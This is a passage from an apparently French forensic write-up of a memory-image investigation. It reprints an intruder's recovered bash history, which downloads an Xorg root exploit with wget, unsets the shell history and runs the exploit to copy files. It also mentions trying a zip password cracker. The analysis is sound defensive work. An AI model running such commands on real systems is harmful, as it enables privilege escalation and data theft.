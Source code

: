 J'ai donc fouillé dans la mémoire en cherchant l'image de ces processus mais je n'ai vu aucun mot de passe autour des commandes `zip` ou `zipcloak`.  

Comme on n'est jamais mieux servi que par soit même (en tout cas dans mon cas sous Linux), j'ai tenté de casser le mot de passe en utilisant [lzcrack](http://devloop.lyua.org/releases/lzcrack-1.0.tar.gz), un casseur de pass d'archives zip que j'ai développé il y a un certain temps, mais je n'ai obtenu aucun résultat.  

J'ai aussi tenté de trouver les fichiers en clair (avant compression) dans l'image de la mémoire mais aucun document xls ni aucun traffic TCP ni étaient présents.  

## Got r00t ?  

Toujours à coups de `grep` j'ai pu découvrir une autre suite de commandes lancées par bash :  

```bash
uname -a
who
ll -h
mkdir temp
ll -h
chmod o-xrw temp/
ll -h
cd temp/
cp /mnt/hgfs/Admin_share/*.xls .
cp /mnt/hgfs/Admin_share/*.pcap .
exit
uname -a
id
exit
X -v
X -V
X -version
cd temp
wget http://metasploit.com/users/hdm/tools/xmodulepath.tgz
tar -zpxvf xmodulepath.tgz
cd xmodulepath
ll
unset HISTORY
./root.sh
exit
pwd
cd ..
cp /mnt/hgfs/Admin_share/intranet.vsd .
ll
ls -lh
exit
```

On y voit notre pirate (on peut maintenant le dire) créer un répertoire `temp` (qu'il supprimera par la suite) et y recopier différents fichiers.  
Il obtient ensuite la version de Xorg sur le système, télécharge [un exploit pour une faille de sécurité existante](http://www.securiteam.com/exploits/5HP0L0KI0Q.html), l'exécute puis en profite pour récupérer un dernier fichier.  
